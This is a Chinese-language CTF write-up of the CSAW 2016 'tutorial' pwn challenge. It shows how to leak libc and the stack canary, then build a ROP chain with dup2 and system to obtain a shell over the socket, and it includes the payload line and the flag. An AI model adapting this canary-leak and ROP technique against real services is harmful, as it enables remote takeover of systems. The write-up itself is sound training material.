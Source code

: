 ```yaml
---
title: '[CSAW CTF 2016] tutorial 200'
author: briansp8210
tags:
  - CSAW CTF 2016
  - pwn
categories:
  - write-ups
date: 2016-09-20
layout: post
---
```

# [CSAW CTF 2016] tutorial 200

> Category: pwn
> Point: 200
> Solver: briansp8210 @ BambooFox	

# tutorial

由於自己對於網路程式設計還沒有概念，而且執行檔在 local 跑不起來，不能用 gdb 觀察，所以看得蠻吃力的。後來感謝 bruce 學長的提點，才順利解出來XD

## 解題流程

程式一開始會建立 socket 連線，然後執行 `fork` 後進入 `menu(int socket)` 選單。

* 選項 1 會輸出 `puts()` 的 address 扣掉 1280 的值，可以從這邊推出 libc address。
* 選項 2 會接收長達 460 bytes 的輸入，並從輸入 buffer 開始輸出 324bytes。透過 IDA 得知該 buffer 的起點位在  `rbp-320` ，所以這裡可以 leak 出位於 `rbp-8` 的 canary。

```C
write(socket_num, "Time to test your exploit...\n", 0x1DuLL);
write(socket_num, ">", 1uLL);
read(socket_num, &s, 460uLL);
write(socket_num, &s, 324uLL);
```

* 選項 3 離開程式。

----------

有了 libc address 和 canary 後就可以開始蓋 ROP chain 了。原本想直接蓋 `system` 開 shell，不知道為什麼失敗了，問了才知道由於前面的 `fork`，這邊直接叫 `system` 的話 file descriptor 會接不起來。所以我們要先用 `dup2()` 把 fd 設好才行。
由於前面呼叫 `read`  時已經把 rdi 設成我們要的值了，所以用 `dup2` 之前只要再把 rsi 設好即可。

```python
chain = 'A'*312 + p64(canary) + 'B'*8 +
	  p64(pop_rsi_r15_ret) + p64(0x0) + p64(0xdeadbeef) + p64(dup2) +
	  p64(pop_rsi_r15_ret) + p64(0x1) + p64(0xdeadbeef) + p64(dup2) +
	  p64(pop_rdi_ret) + p64(binsh) + p64(system)
```

把一開始 `accept` 的回傳值送給 `stdin` 和 `stdout` 之後 call `system` 就可以拿到 shell 了。

```
FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
```